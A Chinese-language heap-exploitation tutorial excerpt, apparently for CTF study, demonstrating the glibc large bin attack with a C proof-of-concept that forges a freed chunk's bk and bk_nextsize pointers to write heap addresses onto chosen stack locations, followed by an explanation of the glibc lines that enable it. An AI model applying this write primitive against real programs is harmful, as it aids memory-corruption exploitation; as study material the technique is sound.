 ```

#include<stdio.h>
#include<stdlib.h>
 
int main()
{
    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    unsigned long *p1 = malloc(0x320);
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    malloc(0x20);
 
    free(p1);
    free(p2);
    malloc(0x90); //将p2从unsorted bin中取下放入large bin中
    free(p3);
    
    //------------VULNERABILITY-----------

    p2[-1] = 0x3f1;//修改size，使得和p3的大小不同，才会在p3加入large bin时设置堆头
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);//伪造chunk 的 bk
    p2[3] = (unsigned long)(&stack_var2 - 4);//伪造chunk 的 bk_nextsize

    //------------------------------------

    malloc(0x90);//将p3 插入large bin中

    return 0;
}
```

在largebin插入的过程中，伪造largebin的bk_nextsize以及bk，实现任意地址写堆地址。

该攻击方式可实现两次往任意的地址写堆地址的能力，设任意地址为evil_addr，问题出现在当前的largebin插入为堆头的过程，在此过程中假设我们可控largebin中的bk_nextsize与bk。

（1）控制fwd->bk_nextsize指向evil_addr-0x20。执行完victim->bk_nextsize = fwd->bk_nextsize后，victim->bk_nextsize也为evil_addr-0x20，接着执行victim->bk_nextsize->fd_nextsize = victim即实现了往evil_addr-0x20->fd_nextsize写victim，即往evil_addr写victim地址。

关键两行代码如下：

```
victim->bk_nextsize = fwd->bk_nextsize; //由于fwd->bk_nextsize可控，因此victim->bk_nextsize可控
...
victim->bk_nextsize->fd_nextsize = victim; //victim->bk_nextsize可控，因此实现了往任意地址写victim的能力
```
